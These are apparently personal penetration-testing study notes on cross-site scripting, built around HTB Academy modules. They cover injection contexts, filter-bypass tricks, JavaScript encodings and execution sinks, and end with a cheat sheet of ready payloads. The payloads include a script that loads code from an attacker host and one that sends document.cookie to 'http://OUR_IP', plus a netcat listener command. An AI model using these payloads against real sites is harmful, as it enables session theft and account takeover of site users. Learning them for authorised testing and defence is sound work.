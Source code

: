# XSS and CSRF
- [HTB Cross-Site Scripting (XSS) Module](https://academy.hackthebox.com/module/103/section/965)
- [HTB Advanced XSS and CSRF Exploitation Module](https://academy.hackthebox.com/module/235/section/2653)
- [OWASP XSS](https://owasp.org/www-community/attacks/xss/)
- [PortSwigger Xss](https://portswigger.net/web-security/cross-site-scripting)
- [HackTricks XSS]([url](https://book.hacktricks.wiki/en/pentesting-web/xss-cross-site-scripting/index.html))

XSS vulnerabilities take advantage of a flaw in user input sanitization to "write" JavaScript code to the page and execute it on the client side. Of course these vulnerabilities run entirely within the browser's sandbox and is confined to what the browser can do.

# Notes
## Same-Origin Policy (SOP) 
Tries to set boundaries by preventing one origin (website) from accessing resources from another origin. A different origin is defined by something that has a different protocol (`http` vs `https`), domain (`example.com` vs `google.com`) and port (`80` vs `443`)

## Content Security Policy (CSP) 
Also tries to add an additional later that lets websites declare which sources of content are trusted. e.g Without CSP an attacker can injects `<script>steal(document.cookie)</script>`. However, the SOP would limit the damage - the malicious script would only be able to access data from the current origin, not from the user's other tabs. If the CSP blocking inline scripts, that injection would be blocked. 

### Where is the output presenting itself?
Determine where your input is getting printed in the HTTP response we receive back:
- Inside the head or body: Easy, just use your regular HTML tags like `<script>alert(1)</script>` or load an external script `<script src=https://onofri.org/security/xss.js></script>.`
- If you are inside a comment, you have to escape out of the comment: `--><script>alert(1)</script>`
- Same applies to `<textarea>` - we have to escape it first with `</textarea><script>alert(1)</script>`
- If we are inside a HTMl attribute we can try terminate it right before our payload (vector). An attribute can be delimited by single or double quotes or whitespace. Then we close the tag and place our payload e.g `'><script>alert(1)</script>` or `"><script>alert(1)</script>`
- If we can't escape out of an attribute we might be able to abuse it itself: e.g if we are in a `href` or `src` attribute we can use it directly with: `javascript:alert(1)` but each attribute/element might behave a little differently. And `"onmouseover="alert(1)` or  `'onmouseover='alert(1)` are valid for most.
- If we're in JS code it depends where we are in the code, JS comments are `//`, it's line terminator is `;` and of course `'` + `"`
- Markdown XSS is a thing: `[xss[(javascript:alert('1'))`

### When is our input getting processed?
`<script>alert(1)</script>` is triggered on page load. However if our payload loads dynamically, such as `<img src=x onerror-alert(1)>`, this may be advantageous since onerror is triggered dynamically. Which means:
- Harder for security scanners to detect since the malicious code isn't present during initial page analysis :point_left:
- Can bypass some client-side filters that only check content on page load :point_left:
- Often involves content that gets injected into the DOM after the page has already loaded

## XSS Filter Bypasses
Client-side filters are relatively easy to bypass with BurpSuite, Server-side filters like a WAF or integrated into the app vary in effectiveness as it depends largely on their config.

## How might these filters be implemented?
- Allow listing (Whitelisting) of allowed elements, attributes or characters.
- Blacklisting of allowed elements, attributes or characters.
- Filters are often layered. A payload may pass one filter but get caught by another
- Input could be truncated after a certain number of characters so worth trying short payloads. Some browsers will let you omit `http` or `https` by using `//` e.g `<script/src=//v.ht/aa`
- HTML is case-sensitive whilst JavaScript is not.
- Authoers favourite way to evaluate what characters are encoded or not, as it will help determine which useful characters are permitted, encoded, removed and whether the input is in upper or lowercase:
```
;:!--''" <SCs>=&{[(`)]}//.
```
## Weak Blacklists
- Casing: `<ScRiPt>alert(1);</ScRiPt>`
- Casing: `<object data="JaVaScRiPt:alert(1)">`
- Casing: `<img src=x OnErRoR=alert(1)>`
- No Space allowed: `<svg/onload=alert(1)>`
- If `img` is blocked, try `audio` or `video`
- If `alert` is blocked, try `prompt` or `confirm`
- If parenthesis `()` are blocked, try the back tick `
- To combine the last 3:
```
<audio src onloadstart=confirm`1`>
```
- Partial encoding e.g if the string `javascript:` is blocked, try `j&#X41vascript:`

### JavaScript Encodings
- Unicode: `"\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029"`
- Octal: `"\141\154\145\162\164\50\61\51"`
- Hex: `"\x61\x6c\x65\x72\x74\x28\x31\x29"`
- Base64: `atob("YWxlcnQoMSk=")`

### String Creation
- fromCharCode: `String.fromCharCode(97,108,101,114,116,40,49,41)`
- source: `/alert(1)/.source`
- URL Encoding: `decodeURI(/alert(%22xss%22)/.source)`

### Execution Sinks:
- eval: `eval("alert(1)")`
- setTimeout: `setTimeout("alert(1)")`
- setInterval: `setInterval("alert(1)")`
- Function: `Function("alert(1)")()`
- constructor: `[].constructor.constructor(alert(1))()`

---



---

# HTB Cheat Sheet
## XSS Payloads
| Code | Description |
|------|-------------|
| `<marquee>` | Basic XSS Payload |
| `<script>alert(window.origin)</script>` | Basic XSS Payload |
| `<plaintext>` | Basic XSS Payload |
| `<script>print()</script>` | Basic XSS Payload |
| `<img src="" onerror=alert(window.origin)>` | HTML-based XSS Payload |
| `<script>document.body.style.background = "#141d2b"</script>` | Change Background Color |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image |
| `<script>document.title = 'HackTheBox Academy'</script>` | Change Website Title |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>` | Overwrite website's main body |
| `<script>document.getElementById('urlform').remove();</script>` | Remove certain HTML element |
| `<script src="http://OUR_IP/script.js"></script>` | Load remote script |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>` | Send Cookie details to us |

## Commands

| Code | Description |
|------|-------------|
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"` | Run `xsstrike` on a url parameter |
| `sudo nc -lvnp 80` | Start `netcat` listener |
| `sudo php -S 0.0.0.0:80` | Start `PHP` server |


